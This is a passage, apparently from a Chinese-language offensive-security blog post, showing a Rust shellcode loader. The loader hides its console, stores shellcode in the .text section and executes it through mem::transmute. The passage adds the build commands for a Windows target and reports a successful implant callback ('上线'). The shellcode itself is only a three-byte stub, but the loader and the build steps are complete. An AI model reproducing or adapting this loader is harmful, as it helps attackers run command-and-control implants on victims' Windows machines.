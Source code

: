 ```bash
#![windows_subsystem = "windows"]

fn main() {



    #[link_section = ".text"]
    static shellcode: [u8; 3] = [ 0xfc, 0x48, 0x83];  // shellcode

    let shellcode_ptr: *const u8 = &shellcode as *const u8;

    unsafe {
        let exec_shellcode = std::mem::transmute::<*const u8, fn()>(shellcode_ptr);
        exec_shellcode();

    }

}
```

这段是比较基础的 shellcode，其中使用了==mem::transmute==来执行了我们的 shellcode  
之后指定编译的平台为==x86\_64-pc-windows-msvc==

```bash
rustup default nightly-x86_64-pc-windows-msvc
```

编译

```bash
cargo build --release
```

之后运行上线

[![](assets/1699257255-11b921388204d1bb8f821a916b3ed68e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231104232118-cd2d5790-7b25-1.png)

可以看到上线成功

## windows 的 api

